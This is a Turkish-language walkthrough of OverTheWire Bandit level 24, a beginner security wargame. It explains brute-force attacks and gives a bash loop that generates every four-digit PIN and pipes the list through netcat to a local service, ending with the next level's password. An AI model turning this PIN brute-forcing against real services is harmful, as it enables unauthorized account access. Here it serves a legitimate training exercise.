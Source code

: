 # Bandit Over The Wire **24**
### Bu Leveldeki Amacımız
> SSH ile bandit24'e bağlanıp `nc` ile  `127.0.0.1(localhost)` `30002` portuna şifremizi ve doğru pin kodunu göndererek bir sonraki level için şifreyi bulmak.


## Kullanacağımız Komutlar
1. `cd` : Change Directory kısaltmasıdır. Bulunduğumuz dizini değiştirmemizi sağlar. Daha fazlası için `man cd` komutunu kullanabilirsiniz.
2. `cat`: Bir dosya içeriğini ekrana yazdırır. Daha fazlası için `man cat` komutunu kullanabilirsiniz.
3. `nc`: Netcat'in kısaltmasıdır. Bir çok parametresi bulunuyor. Bu parametreler sayesinde farklı işlemler yapmamızı sağlıyor. Daha fazlası için `man nc` komutunu kullanabilirsiniz.
4. `nano`: Terminal üzerinde bir metin editörüdür. Daha fazlası için `man nano` komutunu kullanabilirsiniz.
5. `touch`: Bir dosya oluşturmak için kullanılır. Daha fazlası için `man touch` komutunu kullanabilirsiniz.
6. `chmod`: Dosya ve dizinlerin izinlerini değiştirmek için kullanılır. Daha fazlası için `man chmod` komutunu kullanabilirsiniz.



## Bilinmesi Gerekenler
- BruteForce nedir ?
    > Kaba kuvvet saldırı anlamına gelir. Bir şifre, parola, anahtar veya diğer gizli bilginin doğru kombinasyonunu bulmak için her olası kombinasyonu deneme sürecidir. 
    >
    > Kaba kuvvet saldırısında, saldırgan, doğru kombinasyonu bulma umuduyla tüm olası kombinasyonları sistematik olarak dener. Örneğin, bir parola 8 karakter uzunluğundaysa ve her karakter için 26 harf seçeneği varsa, saldırgan toplam 26^8 = 208,891,577,600 olası kombinasyonu denemelidir. Bu, çok fazla kombinasyon olduğundan, kaba kuvvet saldırıları genellikle çok zaman alır.


## Şifre Bulma
Bu levelde `127.0.0.1` adresinin `30002` portuna şifremizi ve doğru pini göndermeye çalışacağız lakin `0000 - 1000` arasında çok fazla seçenek olduğu için bu işlemi otomatikleştirmemiz gerekiyor. Bunun için `bash` scripti yazacağız.

```bash
bandit25@bandit:~$ cd /tmp
bandit25@bandit:/tmp$ touch createPinList.sh
bandit25@bandit:/tmp$ chmod +x createPinList.sh
bandit25@bandit:/tmp$ nano createPinList.sh
```
`nano` ile dosyanın içine aşağıdaki kodları yazıp kaydedelim.

```bash
for i in {0000..9999}; do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i ">> wordlist.txt
done

```
Bu kodlar `0000` ile `9999` arasında bir liste oluşturup `wordlist.txt` dosyasına yazıyor. Bu dosyayı da `nc` ile göndereceğiz.

```bash
bandit25@bandit:/tmp$ ./createPinList.sh
bandit25@bandit:/tmp$ cat wordlist.txt | nc 127.0.0.1 30002
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Wrong! Please enter the correct current password. Try again.
Correct!
The password of user bandit26 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```
Bu şekilde `wordlist.txt` dosyasındaki tüm pinleri deneyerek doğru pin'i bulmuş olduk. Bu şifre ile bir sonraki levele geçebiliriz.


<hr/>

Hata ve geri dönüşler için: *[ersagun@ersaguntosun.com ](mailto:ersagun@ersaguntosun.com)*
